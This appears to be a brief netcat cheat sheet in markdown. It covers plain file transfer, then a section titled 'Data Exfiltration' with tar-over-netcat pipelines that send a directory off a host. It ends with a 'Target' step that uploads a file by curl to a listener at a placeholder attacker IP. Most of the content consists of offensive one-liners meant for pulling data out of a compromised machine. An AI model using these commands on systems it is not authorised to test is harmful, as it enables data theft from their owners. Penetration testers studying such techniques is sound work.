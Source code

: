 # Netcat

## 01 - Transfer Files

- Sender

`$ nc -nvv <IP> 1024 < file.txt`

- Receiver

`$ nc -lnvp 1024 > file.txt`

## 02 - Data Exfiltration

- Method 1

```
$ nc -l 8080 > directory_data.tar.gz

$ tar cfvz - directory_data | nc -w 15 <IP> 8080 directory_data

$ tar xzf directory_data.tar.gz
```

- Method 2

```
$ nc -l 8080 | tar xzvf -

$ tar czf - directory_data | nc <IP> 8080
```

### 2.1 - HTTP Server

`$ nc -lnvp 4040 | tee file.txt`

### 2.2 - Target

`$ curl -T file.txt http://<attacker_IP>:4040`
